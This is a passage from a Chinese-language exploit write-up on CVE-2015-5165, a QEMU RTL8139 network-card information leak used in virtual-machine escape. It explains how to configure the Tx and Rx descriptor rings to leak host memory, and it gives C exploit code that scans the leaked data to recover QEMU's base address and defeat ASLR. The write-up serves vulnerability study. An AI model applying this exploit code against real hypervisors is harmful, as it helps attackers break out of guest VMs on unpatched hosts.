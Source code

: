 第三部分则是配置Tx发送缓冲区，主要是配置`TxAddr0`，设置Tx表的地址。申请好空间，构造好`Tx descriptor`，将恶意网卡数据的地址填到相应的`buf_LO`以及`buf_HI`中。这两个地址都是需要相应的物理地址，需要实现虚拟地址到物理地址的转换。

第四部分是配置Rx接收缓冲区，主要是配置`RxRingAddrLO`以及`RxRingAddrHI`，设置Rx表的地址。因为泄露的信息约为64kb数据，需要申请44个Rx接收缓冲区来保存数据。

最后是信息泄露的分析，如何从泄露出来的数据得到包括程序的基址等有效的信息。可以像phrack文章中写的一样，通过二分法找到`struct ObjectProperty`结构体内存。参考了[dangokyo](https://dangokyo.me/2018/03/08/qemu-escape-part-3-information-leakage-cve-2015-5165/)的exp，通过比对泄露出来地址的低12位以及最高位可以确定出程序基址。

```c
typedef struct ObjectProperty
{
    gchar *name;
    gchar *type;
    gchar *description;
    ObjectPropertyAccessor *get;
    ObjectPropertyAccessor *set;
    ObjectPropertyResolve *resolve;
    ObjectPropertyRelease *release;
    void *opaque;

    QTAILQ_ENTRY(ObjectProperty) node;
} ObjectProperty;
```

```c
uint64_t qemu_search_text_base(void* ptr, size_t size)
{
    size_t i;
    uint64_t property_get_bool_offset = 0x36bacd;
    uint64_t *int_ptr, addr, text_base =0;

    for (i=0; i<size-8; i+=8) {

        int_ptr=(uint64_t*)(ptr+i);
        addr=*int_ptr;

        if( ((addr & 0xfffff00000000000) == 0x500000000000)
                && (( (addr - property_get_bool_offset) & 0xfff ) == 0) )
        {
            text_base = addr - property_get_bool_offset;
            break;
        }

    }

    return text_base;

}
```

同时还需要泄露qemu为虚拟机所分配的进程内存的地址，即下表的`0x7f7a04000000`：

```bash
0x7f7a04000000     0x7f7a84000000 rw-p 80000000 0
0x7f7a84000000     0x7f7a8476e000 rw-p   76e000 0
```
